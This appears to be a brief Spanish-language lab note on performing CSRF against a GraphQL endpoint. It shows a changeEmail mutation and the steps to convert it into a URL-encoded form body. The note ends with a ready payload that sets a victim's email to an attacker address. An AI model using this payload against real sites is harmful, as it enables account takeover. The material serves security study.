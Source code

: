 ```yaml
---
layout: default
title: 5 - Performing CSRF exploits over GraphQL
---
```

Query en JSON : 
```json
{"query":
    "mutation changeEmail($input: ChangeEmailInput!) {
        changeEmail(input: $input) {
            email
        }
    }",
	"operationName":"changeEmail",
    "variables": {"input":{"email":"dsfewf@fe.com"}}
}
```

Para pasarlo a `x-www-form-urlencoded` , clic derecho `Change Request Method` dos veces.
Cambiamos el body del json , 
Cambiamos la llave del query por un parámetro query
Cambiamos los espacios por +
Cambiamos los saltos de línea /n por %0A
Paréntesis url encodeados
: encodeados
en general todos los caracteres especiales menos números.

```x-www-form-urlencoded

query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

